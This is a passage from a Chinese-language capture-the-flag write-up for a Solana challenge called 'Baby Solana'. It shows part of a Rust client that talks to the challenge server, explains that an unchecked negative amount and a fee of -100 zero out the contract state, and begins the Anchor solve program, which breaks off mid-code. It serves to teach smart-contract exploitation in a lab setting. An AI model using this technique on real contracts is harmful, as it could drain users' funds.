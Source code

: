 ```rust
            meta_str.push('w');
        }
        if meta.is_signer {
            meta_str.push('s');
        }
        meta_str.push(' ');
        meta_str.push_str(&meta.pubkey.to_string());

        writeln!(stream, "{}", meta_str)?;
        stream.flush()?;
    }
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", data.len())?;
    stream.write_all(&data)?;
    stream.flush()?;
    line.clear();
    while reader.read_line(&mut line)? != 0 {
        print!("{}", line);
        line.clear();
    }
    Ok(())
}
```

### Baby Solana:
 
分析服务器代码后，可以看出我们必须要把`state.x`和`state.y`都变成`0`。 它们一开始分别是`1000000`和`1000001`。然而，唯一能修改这两个变量的函数是`swap`（虽然它的名字叫`swap`，但他并不是在互换）

`swap` 的运作方式如下：

```rust
state.x += amt;
state.y += amt;

state.x += state.fee * state.x / 100;
state.y += state.fee * state.y / 100;
```

可以看出，它们并没有检查`amt`是否为负数。我们先要把`state.fee`改成`-100`，然后把 `amt`设置为`-1000000`，这样一来，`state.x`和 `state.y`都会变成`0`。

`framework-solve/solve/programs/solve/src/lib.rs`:

```rust
use anchor_lang::prelude::*;

use anchor_spl::token::Token;
declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(ctx: Context<GetFlag>) -> Result<()> {

        let auth_fee_accounts = chall::cpi::accounts::AuthFee{
            state: ctx.accounts.state.to_account_info(),
            payer: ctx.accounts.payer.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_set_fee = CpiContext::new(ctx.accounts.chall.to_account_info(), auth_fee_accounts);
        chall::cpi::set_fee(cpi_set_fee, -100)?;

        // swap
```